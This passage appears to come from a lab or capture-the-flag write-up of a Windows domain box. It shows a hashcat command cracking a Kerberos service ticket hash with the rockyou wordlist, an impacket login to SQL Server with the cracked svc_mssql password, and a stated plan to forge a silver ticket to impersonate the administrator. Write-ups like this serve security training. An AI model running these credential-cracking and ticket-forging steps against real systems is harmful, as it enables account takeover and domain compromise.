 ![](../img/29.png)

Crack the hash using hashcat:
```
hashcat -m 13100 mssql.txt /usr/share/wordlists/rockyou.txt
```
Connect to the SQL Server using `svc_mssql`'s credentials:
```
impacket-mssqlclient breach.vl/svc_mssql:Trustno1@BREACHDC.breach.vl -windows-auth
```
I didn't find anything interesting inside the databases, and I cannot abuse `xp_cmdshell` at the moment.
I own a service account, so using its password, I can create a silver ticket to impersonate the administrator user.
